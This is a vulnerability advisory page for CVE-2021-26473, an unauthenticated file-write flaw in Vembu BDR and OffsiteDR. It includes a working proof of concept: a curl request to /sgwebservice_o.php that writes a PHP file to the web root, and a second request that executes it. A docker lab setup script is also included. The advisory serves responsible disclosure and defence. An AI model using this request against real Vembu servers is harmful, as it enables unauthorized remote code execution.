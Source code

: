 ```yaml
---
layout: cve
cve: CVE-2021-26473
title: Unauthenticated arbitrary file upload and command execution in Vembu products
discovered_by:
  - Wietse Boonstra
author: Frank Breedijk
researchers:
  - Wietse Boonstra
  - Frank Breedijk
case: DIVD-2020-00011
redirect_from:
  - /CVE-2021-26473/
products:
  - VembuBDR
  - VembuOffsiteDR
  - Other products in this family may also be effected
versions:
  - VembuBDR v4.2.0.1
  - VembuBDR v4.2.0
  - VembuBDR v4.1.0
  - VembuBDR v4.0.2
  - VembuBDR v4.0.1
  - VembuBDR v4.0.0
  - VembuBDR v3.9.1 Update1
  - VembuBDR v3.9.0 Update1
  - VembuBDR v3.9.0
  - VembuBDR v3.8.0
  - VembuBDR v3.7.0
  - VembuBDR v3.5.0.0
  - VembuOffsiteDR v4.2.0.1
  - VembuOffsiteDR v4.2.0
  - Other products and versions of products in this family may also be effected
cvss:
  - score: 9.8
  - url: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
---
```

## Summary
The http API located at /sgwebservice_o.php action logFilePath allows an attacker to write arbitrary files in the context of the web server process. THese files can then be executed remotely by calling the file via the web server

## How to reproduce
Step 1:Start up a docker environment (see below)

Step 2: In a different terminal run the following command:
```bash
$ curl 'http://localhost:6060/sgwebservice_o.php?Action=logFilePath&path=./my_php_info.php&value=%3C%3Fphp%20phpinfo%28%29%20%3F%3E%0A'
 
<StoreGrid><Message Error="1" Message="Successfully written." Code="500" /></StoreGrid> 
```

Step 3: validate that a file was written:
```bash

$ docker exec VembuBDR4201 /bin/bash -c "cd /home/vembubdr/Vembu/VembuBDR/htmlgui;ls -l my_*;echo ---;cat my_*;echo ---"
-rw-r--r-- 1 www-data www-data 19 Feb 11 15:35 my_php_info.php
---
<?php phpinfo() ?>
---
```

 Call the script to get command execution:
```bash
$ curl 'http://localhost:6060/my_php_info.php'
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px #ccc;}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px 5px;}
th {position: sticky; top: 0; background: inherit;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
</style>
<title>PHP 7.4.3 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
…
```

## Impact
This vulnerability allows an attacker to upload an arbitrary file in the context of the web server and then execute it.

## About the docker test environment.
In order to set up the docker test environment, we used the following script:
```bash
#!/bin/bash
 
# Network
if [[ $(docker network ls |grep vembu-netowrk |wc -l ) -lt 1 ]]; then
  docker network create --subnet=172.18.0.0/16 vembu-network
fi
 
# Start Database container
mkdir DB
while [[ $(docker ps -a |grep VembuDatabase|wc -l) -ge 1 ]]; do
  docker kill VembuDatabase
  docker rm VembuDatabase
  sleep 1
done
docker run --name VembuDatabase --network vembu-network --ip 172.18.0.2 -p 5432:5432 -d -e POSTGRES_PASSWORD=admin -e POSTGRES_USER=postgres -e POSTGRES_DB=SGDatabase -v  $PWD/DB:/vembu vembubdr/bdr-latest:psql-latest
 
# Wait for database port to open
echo -c "Waiting for database to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/5432" ; do 
  echo -c "."
  sleep 1; 
done
echo
 
# Start APP container
mkdir APP
while [[ $(docker ps -a |grep VembuBDR4201|wc -l) -ge 1 ]]; do
  docker kill VembuBDR4201
  docker rm VembuBDR4201
  sleep 1
done
 
docker run --name VembuBDR4201 --network vembu-network --ip 172.18.0.3 --add-host VembuDatabase:172.18.0.2 --privileged=true -i -t -d --device /dev/fuse --privileged -p 6060:6060 -p 32004:32004 -v $PWD/APP:/vembu vembubdr/bdr-latest:vembubdr-4201-u1
 
# Wait for app port to open
echo -c "Waiting for application to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/6060" ; do 
  echo -c "."
  sleep 1; 
done
echo 
```